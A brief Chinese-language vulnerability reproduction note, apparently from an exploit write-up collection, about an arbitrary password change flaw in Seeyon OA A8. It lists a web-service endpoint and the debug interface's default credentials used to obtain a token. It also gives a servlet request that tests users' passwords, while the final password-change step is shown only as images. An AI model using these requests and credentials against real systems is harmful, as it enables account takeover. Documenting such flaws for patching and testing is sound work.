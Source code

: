 # 致远OA A8 任意用户密码修改漏洞

### 一、漏洞简介

### 二、漏洞影响

致远OA A8

### 三、复现过程


```bash
http://url/seeyon/services/authorityService?wsdl
```

通过调试接口的默认用户 userName:service-admin password:123456 获取万能Token之后可以修改任意用户密码。

![](images/15897241026248.png)


访问


```bash
http://url/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun
```

返回false 说明zw密码不正确

![](images/15897241222315.png)


修改密码

![](images/15897241286843.png)


![](images/15897241326731.png)
